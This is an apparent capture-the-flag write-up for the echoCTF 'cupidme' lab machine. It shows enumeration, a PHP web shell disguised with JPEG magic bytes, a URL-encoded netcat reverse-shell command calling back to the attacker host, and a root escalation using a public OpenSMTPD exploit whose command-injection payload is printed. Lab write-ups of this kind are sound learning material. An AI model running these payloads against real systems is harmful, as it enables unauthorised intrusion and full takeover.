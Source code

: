 ```yaml
---
layout: post
title: cupidme 
feature-img: "assets/img/portfolio/cupidme.png"
img: "assets/img/portfolio/cupidme.png"
date: 06 Jun 2021
tags: [Lorem, Ipsum]
---
```




[CVE-2019-14813](https://echoctf.red/target/33)

![](/assets/images/cupidme.png)

TEE HEE HEE! Cupid, is an imaginary character. However, Cupid is not the only thing that is imaginary on this system (the box security is equally imaginary)...

Tickle cupid the right way and you'll be surprised.

---

### Enumartion



nmap -sC -sV -p- 10.0.40.0

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-03 02:20 EDT
Nmap scan report for 10.0.30.187
Host is up (0.080s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to Cupid's homepage

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.75 seconds
```
### Enumartion - WEB

TEE HEE HEE!
Hello! this is Cupid-Me and <b> this is the page where I upload my awesome pictures</b> for everyone to admire...
What can I say, lenses love me.

but where is the upload form?  

checking the source code and i found this:

<b><!--<form action="upload.php" method="post" enctype="multipart/form-data"> Select image to upload:<br/><input type="file" name="image" id="image"><input type="submit" value="Upload Image" name="submit"></form>--> </b>

unmarked it, and i got the upload form:


![](/assets/images/upload_cupid.png)


### RCE

we can upload files, but its impossiable to this check by hand, so  i used burp for trying upload files.

and then i faced new problem :

```
    [0] => Mimetype not allowed, please upload an image/jpeg file.
    [1] => The maximum file size supported is 39 bytes
```
how to bypass it? 

i have sucees to minimize the file size, but still facing th mimtype.

after some reading about bypass php restrication, i found file signatures.


[magic_byte](https://en.wikipedia.org/wiki/List_of_file_signature)

```
echo '\xff\xd8<?=`{$_GET["cmd"]}`;' > exec.php

$ file shell.php
shell.php: JPEG image data

 ```



after uploading the file i got - 

```
Success. file uploaded at images/shell.php
```

let try to get RCE:

http://10.0.40.0/images/shell.php?cmd=id 

��uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Get Shell 

http://10.0.40.0/images/exec.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.0.10%204444%20%3E%2Ftmp%2Ff

*url encode 

and i got shell as www-data

www-data@cupidme:~/html/images$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data

### Privilege escalation
```
www-data@cupidme:~/html/images$ ss -ant
ss -ant
State        Recv-Q   Send-Q     Local Address:Port        Peer Address:Port    
LISTEN       0        128           127.0.0.11:36769            0.0.0.0:*       
LISTEN       0        128            127.0.0.1:9001             0.0.0.0:*       
LISTEN       0        128              0.0.0.0:80               0.0.0.0:*       
LISTEN       0        5              127.0.0.1:25               0.0.0.0:*       
TIME-WAIT    0        0              127.0.0.1:49074          127.0.0.1:80      
CLOSE-WAIT   9        0              127.0.0.1:9001           127.0.0.1:41482   
TIME-WAIT    0        0              127.0.0.1:9001           127.0.0.1:41504   
ESTAB        0        8              10.0.40.0:59836         10.10.0.10:4444    
TIME-WAIT    0        0              127.0.0.1:41506          127.0.0.1:9001    
FIN-WAIT-2   0        0              10.0.40.0:80            10.10.0.10:51002   
www-data@cupidme:~/html/images$ ps -aux | grep root
ps -aux | grep root
root         1  0.0  0.0   3736  2836 pts/0    Ss+  11:17   0:00 /bin/bash /entrypoint.sh tail -f /var/log/nginx/error.log /var/log/nginx/access.log
root        17  0.0  0.2  80020 10036 ?        Ss   11:17   0:00 php-fpm: master process (/usr/local/etc/php-fpm.conf)
root        28  0.0  0.0   5512  2072 ?        Ss   11:17   0:00 /usr/sbin/cron
root        60  0.0  0.0  69736  1728 ?        Ss   11:17   0:00 nginx: master process /usr/sbin/nginx
root        81  0.0  0.0  12324  3180 ?        Ss   11:17   0:00 /usr/local/sbin/smtpd
root        83  0.0  0.0   2328   752 pts/0    S+   11:17   0:00 tail -f /var/log/nginx/error.log /var/log/nginx/access.log
www-data  2522  0.0  0.0   3084   828 ?        S    13:16   0:00 grep root
www-data@cupidme:~/html/images$ 

```

i noticed for port 25 in listen state, so i checked it:
<b>220 cupidme.echocity-f.com ESMTP OpenSMTPD</b>

searching for online exploit, and found this one  [OpenSMTPD3](https://www.exploit-db.com/exploits/48051)

lets try it:

 perl raptor_opensmtpd.pl LPE
 
 and we goot root - 
 
 
perl raptor_opensmtpd.pl LPE
raptor_opensmtpd.pl - LPE and RCE in OpenBSD's OpenSMTPD
Copyright (c) 2020 Marco Ivaldi <raptor@0xdeadbeef.info>

< 220 cupidme.echocity-f.com ESMTP OpenSMTPD
> HELO fnord
< 250 cupidme.echocity-f.com Hello fnord [127.0.0.1], pleased to meet you
> MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>
< 250 2.0.0 Ok
> RCPT TO:<root>
< 250 2.1.5 Destination address valid: Recipient ok
> DATA
< 354 Enter mail, end with "." on a line by itself
< 250 2.0.0 59a219f1 Message accepted for delivery

Payload sent, please wait 5 seconds...
-rwsrwxrwx 1 root root 16712 Jun  6 09:18 /usr/local/bin/pwned
#


#
#

# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# whoami
whoami
root

